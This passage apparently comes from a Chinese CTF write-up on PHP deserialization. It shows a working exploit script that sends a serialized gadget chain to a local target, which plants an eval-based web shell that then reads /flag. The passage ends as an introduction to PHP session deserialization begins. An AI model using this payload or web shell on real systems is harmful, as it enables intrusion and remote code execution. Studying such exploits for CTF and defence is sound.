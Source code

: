 ```php

class Lyrics {
    protected $lyrics;
    protected $song;
    function __construct($lyrics, $song) {
        $this->song = $song;
        $this->lyrics = $lyrics;
    }
};

class Song {
    protected $logger;
    protected $name;
    protected $group;
    protected $url;
    function __construct($logger) {
        $this->name = '';
        $this->group = '';
        $this->logger = $logger;
    }
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

$a = new Lyrics("aaa",new Song(new Logger(new LogWriter_File("shell.php",new LogFileFormat(array(new OutputFilter('/Song/','<?php @eval($_GET["drom"]);?>')),'\n')))));
CURL('http://127.0.0.1/lemon/index.php?cmd='.urlencode(serialize($a)));
echo CURL('http://127.0.0.1/lemon/shell.php?drom=readfile(\'/flag\');');
```





## 0x05 php session反序列化



### 简介

首先我们需要了解session反序列化是什么？
PHP在session存储和读取时,都会有一个序列化和反序列化的过程，PHP内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化
在php.ini中有以下配置项，wamp的默认配置如图
